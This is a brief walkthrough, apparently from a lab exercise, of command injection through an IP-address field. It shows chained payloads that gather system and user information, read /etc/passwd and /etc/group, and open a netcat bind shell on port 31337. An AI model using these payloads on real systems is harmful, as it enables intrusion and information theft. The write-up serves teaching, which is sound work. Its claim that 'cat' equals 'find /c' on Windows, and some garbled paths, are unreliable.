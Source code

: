 1. Type in IP address.( If it shows that there's no packages lost. It should be the right IP. )
2. Try to use some common commands e.g. dir, cd …
3. Try to use the parameters & and &&( & separates commands on a line meanwhile && executes this command only if previous command’s error level is 0. )

The main reason this is kind of dangerous is that when trying the command :
```
1| uname -a & users & id & w
```
There will be some discovery of the hostname, the user that are logged in. Why is it dangerous? Some of the personal info will be discovered by possibly attacker to start their attacking.

But it is much more than that once commands like :
```
1 | cat / etc/group
```
( Display info about the user groups its members on the target system. )
```
1 | cat /etc/passwd
```
( Linux-based system, more dets about users' specific file destination, such as root, daemon, bin and so much more. )

Moreover, commands includes " netcat ",  such as :
```
1 | netcat -v -e '/bin/bash' -l -p 31337
```
In conclusion, attackers will be able to execute some system commands that will allow them to obtain large amount of information.

"cat" equals to "find /c" in Windows, use "find /?" to find the correct way to use find.
